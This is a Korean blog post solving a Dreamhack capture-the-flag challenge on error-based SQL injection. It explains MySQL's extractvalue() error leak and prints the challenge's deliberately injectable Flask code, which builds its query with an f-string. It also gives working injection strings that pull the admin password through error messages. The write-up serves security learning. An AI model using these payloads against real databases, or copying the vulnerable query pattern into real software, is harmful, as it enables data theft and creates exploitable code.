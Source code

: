 ```yaml
---
title: (6) Dreamhack error based sql injection 문제 풀이
date: 2024-01-11 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
Simple Error Based SQL Injection !

## Error Based Sqli
말 그대로 에러를 기반으로 sql injection을 하는 겁니다. 결과를 알려주지 않고 에러만 알려주는 못된(?) 사이트에서 쓸 수 있는 기법입니다.

### extractvalue()
extractvalue 함수는 XML 형식(1번째 인자)에서 XPath 조건식(2번째 인자)에 해당하는 값을 반환합니다.  
이때 extractvalue 함수로 XPath로 유효하지 않은 문자열을 넘겨준다면 이 값을 그대로 에러메세지에 출력합니다. 따라서 여기서 서브쿼리를 실행하고 결과를 extractvalue함수로 넣어준다면 에러메세지로 서브쿼리의 실행결과를 받아올 수 있습니다.  

sqli에 사용하기 위한 기본적인 형식은 다음과 같습니다.
```sql
extractvalue(1,concat(0x3a,('select * from user ...')))
```
1이라는 값에서 입력한 쿼리의 결과에 해당하는 XPath 조건을 찾는 다는데, 당연히 에러가 나겠죠. 애초에 XPath 조건 부터 제대로 주지 않을 겁니다.  
이걸 어떤 쿼리문 뒤에 붙여서 넘기면 에러가 뜨고 에러메세지에는 쿼리의 결과가 나올겁니다.

## 문제 풀이
![](http://kyuyeop.github.io/assets/img/post/6/1.png)
일단 사이트는 이렇게 생겼습니다. 아마 위에 있는 쿼리문이 실행되는것 같습니다.  
  
그럼 제공된 코드를 한번 살펴보겠습니다.
```python
# app.py
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        try:
            cur = mysql.connection.cursor()
            cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
            return template.format(uid=uid)
        except Exception as e:
            return str(e)
    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
```sql
# init.sql
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
FLUSH PRIVILEGES;
```
이 init.sql이 실행되었다면 DB에는 이런 데이터가 들어가 있을 겁니다.
{% endraw %}
|uid|upw|
|:---:|:---:|
|admin|DH\{...\}|
|guest|guest|
|test|test|
{% raw %}
이번에는 flag를 탈취하기 위해 먼저 알아본 extractvalue 함수를 이용할 겁니다. admin의 upw값을 알고싶은 거기 때문에 결과를 알고싶은 쿼리 이렇게 될겁니다.
```sql
select upw from user where uid='admin'
```
이걸 extractvalue와 결합하면
```sql
extractvalue(1,concat(0x3a,(select upw from user where uid='admin')))
```
이렇게 될 겁니다.  
  
submit 버튼을 누르면 입력값인 uid에 따라
```sql
SELECT * FROM user WHERE uid='{uid}';
```
이런 쿼리문이 실행됩니다.  
  
따라서 uid에 아래와 같은 값을 넣어준다면
```
' AND extractvalue(1,concat(0x3a,(select upw from user where uid='admin')))-- 
```
실제로는
```sql
SELECT * FROM user WHERE uid='' AND extractvalue(1,concat(0x3a,(select upw from user where uid='admin')))-- ';

```
이런게 실행되어 버릴 겁니다. 에러가 나므로 당연히 try에서 expect로 빠질거고, 에러메세지가 그대로 출력될 겁니다.  
  
실제로도 그런지 테스트를 해보면
![](http://kyuyeop.github.io/assets/img/post/6/2.png)
flag가 출력되긴 했는데... 잘려서 나옵니다. 에러메세지가 너무 길어서 잘려서 출력되었습니다.  
  
이를 해결하기 위해서 substr을 사용할 겁니다. 일단 앞의 28자는 출력이 되었으므로 대충 25번째 부터 추가로 20글자 정도를 출력하도록 쿼리문을 수정해 보겠습니다.
```
' AND extractvalue(1,concat(0x3a,(select substr(upw,25,20) from user where uid='admin')))-- 
```
![](http://kyuyeop.github.io/assets/img/post/6/3.png)
이렇게 나머지 부분도 출력이 되어 flag를 획득했습니다.
{% endraw %}
